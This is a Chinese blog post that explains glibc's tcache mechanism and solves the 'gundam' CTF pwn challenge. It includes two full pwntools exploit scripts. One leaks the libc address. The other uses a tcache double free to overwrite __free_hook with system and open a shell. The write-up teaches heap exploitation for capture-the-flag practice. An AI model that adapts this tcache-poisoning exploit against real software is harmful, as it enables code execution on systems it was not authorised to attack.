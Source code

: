 ```yaml
---
layout:     post
title:      Tcache机制介绍
subtitle:    tcache
date:       2019-1-15
author:     XT
header-img: img/post-bg-coffee.jpeg
catalog: 	 true
tags:
    - pwn
    - 堆
---
```



> tcache介绍



libc2.26之后增加了tcache机制

这是大佬写的介绍，我自己还有测试 T_T

http://p4nda.top/2018/03/20/tcache/

https://ctf-wiki.github.io/ctf-wiki/pwn/linux/glibc-heap/tcache_attack/

https://www.anquanke.com/post/id/104760

下面的题目是一道具体的tcache利用。

# gundam题目解析

![](https://raw.githubusercontent.com/xineting/xineting.github.io/master/img/1547557808506.png)

保护全开

首先运行题目，

```shell
root@VM-0-13-ubuntu:/home/ubuntu/hitbctf/gundam # ./gundam 

1 . Build a gundam 
2 . Visit gundams 
3 . Destory a gundam
4 . Blow up the factory
5 . Exit

Your choice : 
```

main函数如图，

![1547557851256](https://raw.githubusercontent.com/xineting/xineting.github.io/master/img/1547557854305.png)

进行测试

![1547699993732](https://raw.githubusercontent.com/xineting/xineting.github.io/master/img/7699996599.png)

![1547699952444](F:\xineting.github.io\img\5C1547699958781.png)

而destoy函数如图

![1547702466267](https://raw.githubusercontent.com/xineting/xineting.github.io/master/img/2468327.png)

他并没有把结构体给free掉，

![1547703262626](https://raw.githubusercontent.com/xineting/xineting.github.io/master/img/262626.png)

而我们的blow up函数，是用来free上边的块的

![1547734299758](https://raw.githubusercontent.com/xineting/xineting.github.io/master/img/734299758.png)

首先获得libc的地址

这个不管libc的版本是否大于2.26都可以运行。

```python
#coding:utf-8
from pwn import *
debug = 1

if debug:
        p = process('./gundam')
        libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
        context.log_level = 'debug'
        context.terminal = ['tmux', 'split', '-h']
        gdb.attach(p)
else:
        p = remote('47.75.37.114', 9999)
        libc = ELF('./libc.so.6')
        context.log_level = 'debug'
        #libc = ELF('./libc-2.23.so')
        #off = 0x001b0000

def build(name,type):
        p.recvuntil('choice :')
        p.sendline('1')
        p.recvuntil('The name of gundam :')
        p.send(name)
        p.recvuntil('The type of the gundam :')
        p.sendline(str(type))
def visit():
        p.recvuntil('choice :')
        p.sendline('2')
def destroy(index):
        p.recvuntil('choice :')
        p.sendline('3')
        p.recvuntil('Which gundam do you want to Destory:')
        p.sendline(str(index))
def blow():
        p.recvuntil('choice :')
        p.sendline('4')
for i in range(0,9):
        build('p4nda',1)
for i in range(0,9):
        destroy(i)
blow()
for i in range(0,7):
        build('a'*8,1)
build('a'*8,1)
build('a'*8,1)
visit()
p.recvuntil('Gundam[7] :aaaaaaaa')
libc.address = u64(p.recv(6).ljust(8,'\0')) - 88 - 0x18 - libc.symbols['__malloc_hook']
print "libc - >"+hex(libc.address)
```



完整的脚本如图，如果libc<2.26则会报double free的错误。

 ```python
#coding:utf-8
from pwn import *
debug = 1

if debug:
        p = process('./gundam')
        libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
        context.log_level = 'debug'
        context.terminal = ['tmux', 'split', '-h']
        gdb.attach(p)

else:
        p = remote('47.75.37.114', 9999)
        libc = ELF('./libc.so.6')
        context.log_level = 'debug'
        #libc = ELF('./libc-2.23.so')
        #off = 0x001b0000

def build(name,type):
        p.recvuntil('choice :')
        p.sendline('1')
        p.recvuntil('The name of gundam :')
        p.send(name)
        p.recvuntil('The type of the gundam :')
        p.sendline(str(type))
def visit():
        p.recvuntil('choice :')
        p.sendline('2')
def destroy(index):
        p.recvuntil('choice :')
        p.sendline('3')
        p.recvuntil('Which gundam do you want to Destory:')
        p.sendline(str(index))
def blow():
        p.recvuntil('choice :')
        p.sendline('4')

for i in range(0,9):
        build('p4nda',1)
for i in range(0,9):
        destroy(i)
blow()
for i in range(0,7):
        build('a'*8,1)
build('a'*8,1)
build('a'*8,1)
visit()
p.recvuntil('Gundam[7] :aaaaaaaa')
libc.address = u64(p.recv(6).ljust(8,'\0')) - 88 - 0x18 - libc.symbols['__malloc_hook']
print "libc - >"+hex(libc.address)
print '[*] system:',hex(libc.symbols['system'])
for i in range(0,8):
        destroy(i)
blow()
build('p4nda',1) #0
build('/bin/sh\0',1) #0 1
build('p4nda',1) #0
destroy(0)
destroy(0)
pause()

build(p64(libc.symbols['__free_hook']),1)# 0 1 2
pause()
build('AAAAAAAA',1)
pause()
build(p64(libc.symbols['system']),1)
pause()
destroy(1)

p.interactive()
 ```

